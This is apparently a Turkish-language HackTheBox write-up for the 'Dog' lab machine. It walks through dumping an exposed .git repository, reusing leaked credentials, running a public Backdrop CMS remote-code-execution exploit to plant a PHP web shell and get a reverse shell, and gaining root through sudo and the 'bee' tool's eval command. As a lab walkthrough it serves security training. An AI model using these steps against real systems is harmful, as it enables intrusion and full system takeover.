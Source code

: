 ```yaml
---
title: 'HackTheBox | Dog WriteUp'
author: appdone
categories: [HackTheBox Machines]
tags: [git, remote code execution, sudo, linux]
render_with_liquid: false
media_subpath: /images/hackthebox_dog/
image:
  path: logo.webp
---
```


## Özet

Dog, Backdrop CMS adında bir içerik yönetim sistemi kullanan kolay seviye bir linux makinedir. Nmap taraması sonucunda .git/ dizinini keşfedecek ve repoyu indireceğiz. Bu repo üzerinden içerik yönetim sistemindeki kullanıcılardan birinin parolasını ve kullanıcı adını öğreneceğiz. Daha sonra ise içerik yönetim sistemi üzerinden sisteme shell dosyamızı yükleyecek ve bir reverse shell bağlantısı alacağız. Sistemdeki kullanıcılardan birinin aynı parolayı kullanması nedeniyle o kullanıcıya geçiş yapacağız. Daha sonra ise root haklarıyla bir dosyayı çalıştırabileceğimizi fark edecek ve o dosya üzerinden yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sVC -T4 10.10.11.58
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Nmap taramasının sonucunda, 80 numaralı HTTP servisinin üzerinde bir `Git` reposu olduğunu ve kullanılan web uygulamasının `Backdrop CMS` olduğunu öğrendik.

#### Git reposunun incelenmesi

`Git` reposunu `git-dumper` aracının yardımıyla indirelim.

```console
$ python3 git-dumper.py http://10.10.11.58/.git/ dog
...
[-] Fetching http://10.10.11.58/.git/objects/ff/d522e1da8660cb25dce831f19efa284753b691 [200]
[-] Fetching http://10.10.11.58/.git/objects/ff/c8b7a2f5179db2788971de0e8a265032d6ddab [200]
[-] Fetching http://10.10.11.58/.git/objects/ff/f99b60388f8dabaa3ccb41a86ac100b29a75fa [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 2873 paths from the index
```

Dosyaları incelerken settings.php dosyasının içerisinde mysql bilgilerini buluyoruz. Ancak mysql servisine dışarıdan bağlanamayacağımız için elde ettiğimiz parolayı başka bir yerde kullanmamız gerekebilir.

```php
$database = 'mysql://root:[GİZLi]@127.0.0.1/backdrop';                                                                                                                            
$database_prefix = '';
```

Web uygulamasında `root` isminde bir kullanıcı bulunmadığından giriş yapamadım. Sitede bir kaç gönderi paylaşıldığını görmüştüm, dolayısıyla gönderileri paylaşan kullanıcıların adlarını da denedim ama nafile. Hakkında sayfasındaki `support@dog.htb` mailinden yola çıkarak `Git` reposu üzerinden kullanıcı adları bulmaya çalıştığımızda iki adet mail adresi görüyoruz. Bu maillerden biri aradığımız kullanıcının ta kendisidir.

```console
$grep -r "@dog.htb"
...
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "[GİZLi]@dog.htb"
```

## Sömürü aşaması

![](4.webp){: width="1200" height="600" }

Elde ettiğimiz kullanıcı bilgileri ile sisteme giriş yapalım. Daha sonra `reverse shell` kodlarımızı yükleyebilmek için sayfaları kontrol edelim. Temaların bulunduğu kısımda sadece içerikleri düzenleyebileceğimiz bir sayfa var. Modüller sayfasına ise keyfimize göre modül yükleyemiyoruz.

### Zararlı modülün oluşturulması ve yüklenmesi

Bu hazır içerik yönetim sistemine nasıl php shell yükleyebileceğimi öğrenmek için internette arama yaptım ve [bu](https://www.exploit-db.com/raw/52021) sayfa ile karşılaştım. Programı çalıştırdıktan sonra bize bir `.zip` dosyası veriyor ve dosyayı verdiği dizin üzerinden siteye yüklememizi istiyor.

```console
$ python3 52021 http://10.10.11.58
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

Oluşturduğu `.zip` dosyasını `.tar.gz` formatına çevirdikten sonra bahsettiği http://10.10.11.58/?p=admin/modules/install adresine gidiyor ve `manuel install` linkini seçiyoruz. Sonrada sıkıştırdığımız dosyayı yüklüyoruz.

![](2.webp){: width="900" height="500" }

Dosya yüklendikten sonra programda belirtilen adrese gidiyor ve buradaki web shell üzerinden ncat ile bir bağlantı alıyoruz.

![](3.webp){: width="900" height="500" }

## Yetki yükseltme

### johncusack

Sisteme girdikten sonra bayrağı alabilmek için /home dizine yöneldim. Burada iki kullanıcı dizini bulunuyor. `jobert` dizininin içerisinde herhangi bir bilgi yok. `johncusack` kullanıcısının dizinini ise görüntüleyemiyoruz. Ancak `johncusack` kullanıcısının parolası web siteye girmek için kullandığımız parola ile eşleşiyor.

```console
www-data@dog:/home$ su johncusack
Password: 
johncusack@dog:/home$
```

### root

Sudo yetkilerimizi kontrol ettiğimizde `bee` isimli bir dosyayı herhangi bir kullanıcı adına çalıştırabileceğimizi görüyoruz.

```console
johncusack@dog:~$ ls
user.txt
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

Dosyayı çalıştırdığımızda kullanılabilir tüm parametreler görüntüleniyor. Tabi ihtiyacımız olan şey, root kullanıcısı adına komut çalıştırmak olduğundan ilk olarak gözümüze `eval` parametresi takılıyor.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee
...
eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
...
```

Bu dosya php ile yazılmış, dolayısıyla php dilinde komut çalıştırabileceğimiz bir kod girmemiz gerekiyor, ancak nedenini anlamadığım bir şekilde aşağıdaki hata ile karşılaşıyorum.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee ev "system('/bin/bash');"

 ✘  The required bootstrap level for 'eval' is not ready.
```

Dosyayı biraz inceledikten sorna Backdrop CMS'i yönetmek için kullanılan bir dosya olduğunu öğrendim. Diğer komutlarıda kullandıktan sonra da `Backdrop` içerik yönetim sisteminin adresini bulamadığını fark ettim.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee sqlc
PHP Fatal error:  Uncaught Error: Class 'Database' not found in /backdrop_tool/bee/commands/db.bee.inc:279
Stack trace:
#0 /backdrop_tool/bee/includes/command.inc(99): sql_bee_callback()
#1 /backdrop_tool/bee/bee.php(30): bee_process_command()
#2 {main}
  thrown in /backdrop_tool/bee/commands/db.bee.inc on line 279
```

Komutları tekrar gözden geçirdikten sonra `--root` parametresi ile CMS'in adresini belirtebileceğimizi görüyoruz. Daha sonra ise komutu parametreyi komuta dahil ediyor ve çalıştırıyoruz.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee ev "system('/bin/bash');" --root=/var/www/html/
root@dog:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```

